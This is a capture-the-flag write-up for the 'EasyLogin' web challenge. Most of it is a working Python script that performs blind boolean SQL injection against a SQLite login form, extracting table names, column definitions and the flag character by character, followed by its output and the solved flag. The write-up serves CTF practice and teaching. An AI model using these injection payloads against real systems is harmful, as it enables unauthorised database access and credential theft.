



## EasyLogin (100 points)

#### Solved by Fluoxetine

```
I just made my first website, can you test it for me?

61.28.237.24 30100

authors: d0r4, Em0n
```







```py
import requests
import string

def check(q):
  url = 'http://61.28.237.24:30100/'
  data = {'username': q, 'passwd': ''}
  cookie = {'PHPSESSID': '64f587756df8c0f49b8f8d14de6dcd2d'}
  resp = requests.post(url, cookies=cookie, data=data).text
  return "Wrong" not in resp

def get_table_count():
  print('[+] get_table_count')
  q = "a' or (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%') = {n}--"
  for i in range(0, 10):
    if check(q.format(n=i)):
      return i
  return -1

def get_table_name(table_index):
  print('[+] get_table_name')
  q = "a' or UNICODE(SUBSTR((SELECT name FROM sqlite_master WHERE type='table' limit 1 offset {table_index}), {pos}, 1)) = {n}--"
  res = ''
  for K in range(100):
    found = False
    for c in string.printable:
      pos = len(res) + 1
      query = q.format(table_index=table_index, pos=pos, n=ord(c))
      if check(query):
        res += c
        found = True
        print('[+] table name so far: ' + res)
        break
    if not found: break
  return res

def get_column_name(table_name):
  print('[+] get_column_name')
  q = "a' or UNICODE(SUBSTR((SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name='{table_name}' limit 1 offset 0), {pos}, 1)) = {n}--"
  res = ''
  for K in range(100):
    found = False
    for c in string.printable:
      pos = len(res) + 1
      query = q.format(table_name=table_name, pos=pos, n=ord(c))
      if check(query):
        res += c
        found = True
        print('[+] column name so far: ' + res)
        break
    if not found: break
  return res

def get_column_value(table_name, column_name):
  print('[+] get_column_value')
  q = "a' or UNICODE(SUBSTR((SELECT * FROM flagtablewithrandomname), {pos}, 1)) = {n}--"
  res = ''
  for K in range(100):
    found = False
    for c in string.printable:
      pos = len(res) + 1
      query = q.format(table_name=table_name, column_name=column_name, pos=pos, n=ord(c))
      if check(query):
        res += c
        found = True
        print('[+] column value so far: ' + res)
        break
    if not found: break
  return res

print(get_table_count()) # 2
get_table_name(0) # users
get_table_name(1) # flagtablewithrandomname
get_column_name('users') # username, passwd
get_column_name('flagtablewithrandomname') # flag
get_column_value('flagtablewithrandomname', 'flag') # HCMUS-CTF{easY_sql_1nj3ctIon}
```

Output:

```
[+] get_table_count
2
[+] get_table_name
[+] table name so far: users
[+] get_table_name
[+] table name so far: flagtablewithrandomname
[+] get_column_name
[+] column name so far: CREATE TABLE users(username, passwd)
[+] get_column_name
[+] column name so far: CREATE TABLE flagtablewithrandomname(flag)
[+] get_column_value
[+] column value so far: HCMUS-CTF{easY_sql_1nj3ctIon}
```

**Flag:** `HCMUS-CTF{easY_sql_1nj3ctIon}`

### References

- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)
